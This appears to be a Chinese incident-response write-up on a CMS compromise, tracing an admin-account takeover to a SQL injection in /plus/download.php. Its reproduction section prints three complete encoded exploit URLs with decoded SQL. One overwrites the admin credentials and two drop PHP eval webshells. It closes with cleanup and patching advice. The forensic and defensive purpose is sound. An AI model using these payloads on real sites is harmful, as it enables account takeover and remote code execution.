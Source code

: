 你是某一个网站的管理员，有一天，你的管理员账号admin却登录不了，进入数据库查看，原来管理员账号用户名不存在了，却多了另外一个管理员用户名。不对，不是新增了管理员，而是你的管理员用户名被篡改了。


# 0X00 现象描述
前后端分离，后台只允许内网访问，管理员账号admin却依然被多次被篡改


# 0X01 问题处理
**1、网站webshell**<br />在针对网站根目录进行webshell扫描，发现存在脚本木马，创建时间为2018-06-13 04:30:30<br />![8-1.png](../../_img\05-应急响应/1656922162593-b7a7a060-526d-42f6-85c2-1037d40cd663.png)

**2、 定位IP**<br />通过木马创建时间， 查看网站访问日志，定位到IP为：180.xx.xx.3<br />![8-2.png](../../_img\05-应急响应/1656922167587-fa47ae65-f08c-4be2-af7b-ffc5f49c0854.png)

**3、关联分析**<br />全局搜索与该IP有关的操作日志：<br />![8-3.png](../../_img\05-应急响应/1656922172496-183356d8-f092-4490-beee-41274625ae51.png)

在脚本木马生成前，有两条比较可疑的访问日志吸引了我们的注意：<br />`172.16.1.12 180.xx.xxx.3 - - [10/Jun/2018:08:41:43 +0800] "GET /plus/download.php?open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=109&arrs2[]=121&arrs2[]=97&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=83&arrs2[]=69&arrs2[]=84&arrs2[]=32&arrs2[]=96&arrs2[]=110&arrs2[]=111&arrs2[]=114&arrs2[]=109&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=96&arrs2[]=32&arrs2[]=61&arrs2[]=32&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=102&arrs2[]=105&arrs2[]=108&arrs2[]=101&arrs2[]=95&arrs2[]=112&arrs2[]=117&arrs2[]=116&arrs2[]=95&arrs2[]=99&arrs2[]=111&arrs2[]=110&arrs2[]=116&arrs2[]=101&arrs2[]=110&arrs2[]=116&arrs2[]=115&arrs2[]=40&arrs2[]=39&arrs2[]=39&arrs2[]=114&arrs2[]=101&arrs2[]=97&arrs2[]=100&arrs2[]=46&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=39&arrs2[]=39&arrs2[]=44&arrs2[]=39&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=101&arrs2[]=118&arrs2[]=97&arrs2[]=108&arrs2[]=40&arrs2[]=36&arrs2[]=95&arrs2[]=80&arrs2[]=79&arrs2[]=83&arrs2[]=84&arrs2[]=91&arrs2[]=120&arrs2[]=93&arrs2[]=41&arrs2[]=59&arrs2[]=101&arrs2[]=99&arrs2[]=104&arrs2[]=111&arrs2[]=32&arrs2[]=109&arrs2[]=79&arrs2[]=111&arrs2[]=110&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=32&arrs2[]=87&arrs2[]=72&arrs2[]=69&arrs2[]=82&arrs2[]=69&arrs2[]=32&arrs2[]=96&arrs2[]=97&arrs2[]=105&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=61&arrs2[]=49&arrs2[]=57&arrs2[]=32&arrs2[]=35 HTTP/1.1" 200 67`

`172.16.1.12 180.xx.xxx.3 - - [10/Jun/2018:08:41:43 +0800] "GET /plus/ad_js.php?aid=19 HTTP/1.1" 200 32`

对这段POC进行解码，我们发现通过这个poc可以往数据库中插入数据，进一步访问/plus/ad_js.php?aid=19 即可在plus目录生成read.php脚本文件。<br />![8-4.png](../../_img\05-应急响应/1656922182368-43ab4452-7fe4-4796-9e1b-a24b29fd9036.png)

解码后：<br />cfg_dbprefixmyad`SET`normbody`= '<?php file_put_contents(''read.php'',''<?php eval($_POST[x]);echo mOon;?>'');?>' WHERE`aid` =19 #

综上，可以推测/plus/download.php中可能存在SQL注入漏洞，接下来，收集网上已公开的有以下3种EXP进行漏洞复现。


# 0X02 漏洞复现

## 利用方式一：修改后台管理员

1. 新建管理员账号test/test123789，可以成功登录网站后台
2. 构造如下注入SQL语句：`cfg_dbprefixadmin SETuserid='spider',pwd='f297a57a5a743894a0e4' where id=19 #`` 修改后台管理员为：用户名spider，密码admin。
3. 对应的EXP:`？open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=97&arrs2[]=100&arrs2[]=109&arrs2[]=105&arrs2[]=110&arrs2[]=96&arrs2[]=32&arrs2[]=83&arrs2[]=69&arrs2[]=84&arrs2[]=32&arrs2[]=96&arrs2[]=117&arrs2[]=115&arrs2[]=101&arrs2[]=114&arrs2[]=105&arrs2[]=100&arrs2[]=96&arrs2[]=61&arrs2[]=39&arrs2[]=115&arrs2[]=112&arrs2[]=105&arrs2[]=100&arrs2[]=101&arrs2[]=114&arrs2[]=39&arrs2[]=44&arrs2[]=32&arrs2[]=96&arrs2[]=112&arrs2[]=119&arrs2[]=100&arrs2[]=96&arrs2[]=61&arrs2[]=39&arrs2[]=102&arrs2[]=50&arrs2[]=57&arrs2[]=55&arrs2[]=97&arrs2[]=53&arrs2[]=55&arrs2[]=97&arrs2[]=53&arrs2[]=97&arrs2[]=55&arrs2[]=52&arrs2[]=51&arrs2[]=56&arrs2[]=57&arrs2[]=52&arrs2[]=97&arrs2[]=48&arrs2[]=101&arrs2[]=52&arrs2[]=39&arrs2[]=32&arrs2[]=119&arrs2[]=104&arrs2[]=101&arrs2[]=114&arrs2[]=101&arrs2[]=32&arrs2[]=105&arrs2[]=100&arrs2[]=61&arrs2[]=49&arrs2[]=57&arrs2[]=32&arrs2[]=35`
4. 执行EXP后，相应后台数据库表变为如下：

![8-5.png](../../_img\05-应急响应/1656922301367-ef99f33e-ed90-4312-bd06-ff2140a449cf.png)

5. 因此相应后台登录用户变为spider密码admin


## 利用方式二：通过/plus/mytag_js.php文件生成一句话木马php

1. 如：构造如下注入SQL语句：`cfg_dbprefixmytag(aid,expbody,normbody) VALUES(9013,@','{dede:php}file_put_contents(''90sec.php'',''<?php eval($_POST[guige]);?>'');{/dede:php}') # @'`
2. 对应的EXP:`?open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=109&arrs2[]=121&arrs2[]=116&arrs2[]=97&arrs2[]=103&arrs2[]=96&arrs2[]=32&arrs2[]=40&arrs2[]=97&arrs2[]=105&arrs2[]=100&arrs2[]=44&arrs2[]=101&arrs2[]=120&arrs2[]=112&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=44&arrs2[]=110&arrs2[]=111&arrs2[]=114&arrs2[]=109&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=41&arrs2[]=32&arrs2[]=86&arrs2[]=65&arrs2[]=76&arrs2[]=85&arrs2[]=69&arrs2[]=83&arrs2[]=40&arrs2[]=57&arrs2[]=48&arrs2[]=49&arrs2[]=51&arrs2[]=44&arrs2[]=64&arrs2[]=96&arrs2[]=92&arrs2[]=39&arrs2[]=96&arrs2[]=44&arrs2[]=39&arrs2[]=123&arrs2[]=100&arrs2[]=101&arrs2[]=100&arrs2[]=101&arrs2[]=58&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=125&arrs2[]=102&arrs2[]=105&arrs2[]=108&arrs2[]=101&arrs2[]=95&arrs2[]=112&arrs2[]=117&arrs2[]=116&arrs2[]=95&arrs2[]=99&arrs2[]=111&arrs2[]=110&arrs2[]=116&arrs2[]=101&arrs2[]=110&arrs2[]=116&arrs2[]=115&arrs2[]=40&arrs2[]=39&arrs2[]=39&arrs2[]=57&arrs2[]=48&arrs2[]=115&arrs2[]=101&arrs2[]=99&arrs2[]=46&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=39&arrs2[]=39&arrs2[]=44&arrs2[]=39&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=101&arrs2[]=118&arrs2[]=97&arrs2[]=108&arrs2[]=40&arrs2[]=36&arrs2[]=95&arrs2[]=80&arrs2[]=79&arrs2[]=83&arrs2[]=84&arrs2[]=91&arrs2[]=103&arrs2[]=117&arrs2[]=105&arrs2[]=103&arrs2[]=101&arrs2[]=93&arrs2[]=41&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=123&arrs2[]=47&arrs2[]=100&arrs2[]=101&arrs2[]=100&arrs2[]=101&arrs2[]=58&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=125&arrs2[]=39&arrs2[]=41&arrs2[]=32&arrs2[]=35&arrs2[]=32&arrs2[]=64&arrs2[]=96&arrs2[]=92&arrs2[]=39&arrs2[]=96`
3. 执行EXP后，将向数据库表dede_mytag中插入一条记录

![8-6.png](../../_img\05-应急响应/1656922417709-135fc33d-1def-4d4a-86c8-ade0e5283725.png)

4. 执行如下语句，在/plus目录下生成90sec.php一句话木马 [http://www.xxxx.com/plus/mytag_js.php?aid=9013](http://www.xxxx.com/plus/mytag_js.php?aid=9013)


## 利用方式三：使/plus/ad_js.php文件变为一句话木马php

1. 如：构造如下注入SQL语句：`cfg_dbprefixmyadSETnormbody= '<?php file_put_contents(''read.php'',''<?php eval($_POST[x]);echo mOon;?>'');?>' WHEREaid =19 #` `
2. 对应的EXP:`/plus/download.php?open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=109&arrs2[]=121&arrs2[]=97&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=83&arrs2[]=69&arrs2[]=84&arrs2[]=32&arrs2[]=96&arrs2[]=110&arrs2[]=111&arrs2[]=114&arrs2[]=109&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=96&arrs2[]=32&arrs2[]=61&arrs2[]=32&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=102&arrs2[]=105&arrs2[]=108&arrs2[]=101&arrs2[]=95&arrs2[]=112&arrs2[]=117&arrs2[]=116&arrs2[]=95&arrs2[]=99&arrs2[]=111&arrs2[]=110&arrs2[]=116&arrs2[]=101&arrs2[]=110&arrs2[]=116&arrs2[]=115&arrs2[]=40&arrs2[]=39&arrs2[]=39&arrs2[]=114&arrs2[]=101&arrs2[]=97&arrs2[]=100&arrs2[]=46&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=39&arrs2[]=39&arrs2[]=44&arrs2[]=39&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=101&arrs2[]=118&arrs2[]=97&arrs2[]=108&arrs2[]=40&arrs2[]=36&arrs2[]=95&arrs2[]=80&arrs2[]=79&arrs2[]=83&arrs2[]=84&arrs2[]=91&arrs2[]=120&arrs2[]=93&arrs2[]=41&arrs2[]=59&arrs2[]=101&arrs2[]=99&arrs2[]=104&arrs2[]=111&arrs2[]=32&arrs2[]=109&arrs2[]=79&arrs2[]=111&arrs2[]=110&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=32&arrs2[]=87&arrs2[]=72&arrs2[]=69&arrs2[]=82&arrs2[]=69&arrs2[]=32&arrs2[]=96&arrs2[]=97&arrs2[]=105&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=61&arrs2[]=49&arrs2[]=57&arrs2[]=32&arrs2[]=35`
3. 执行EXP后，将向数据库表dede_myad中插入一条记录。
4. 进一步访问/plus/ad_js.php?aid=19 即可在plus目录生成read.php脚本文件。

---

如何清除？<br />1、删除网站目录中的webshell<br />2、清除dede_myad、dede_mytag数据库表中插入的SQL语句，防止再次被调用生成webshell。

如何防御？<br />网站采用开源CMS搭建，建议及时对官方发布的系统补丁以及内核版本进行升级。

